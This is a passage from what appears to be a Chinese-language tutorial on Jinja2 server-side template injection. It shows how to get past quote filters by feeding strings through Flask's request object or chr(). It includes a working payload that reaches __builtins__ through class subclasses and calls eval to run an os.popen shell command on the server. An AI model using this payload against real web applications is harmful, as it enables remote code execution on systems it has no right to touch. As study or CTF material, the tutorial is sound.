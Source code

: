 1.  **`request` 对象绕过:** Jinja2 模板通常可以访问 Web 框架（如 Flask）的 `request` 对象。可以将需要的字符串（如函数名 `'eval'`, `'os'`, 命令 `"ls /"` 等）放在 HTTP 请求的参数（GET/POST）、Cookie 或 Header 中，然后在模板中通过 `request.values.param_name`, `request.cookies.cookie_name`, `request.headers.header_name` 等方式获取，从而避免在模板代码中直接使用引号。
2.  **`chr()` 函数:** （如果可用）可以使用 `chr()` 函数将整数 ASCII 码转换为字符，通过拼接多个 `chr()` 调用来构造任意字符串。

**利用 `request` 对象 Payload:**

首先，使用脚本或手动探测找到可用的函数及其索引（例如找到 `eval`）。
![[‘\‘’, ‘“‘] 1](./images/ssti7.png)

然后构造注入 Payload，将需要的字符串通过 `request` 对象传入：

```jinja
{% print ().__class__.__mro__[-1].__subclasses__()[80].__init__.__globals__.__builtins__[request.values.arg1](request.values.arg2) %}
```

在 HTTP 请求中（例如 POST body 或 URL query string）提供以下参数：

```
arg1=eval
arg2=__import__("os").popen("ls /").read()
```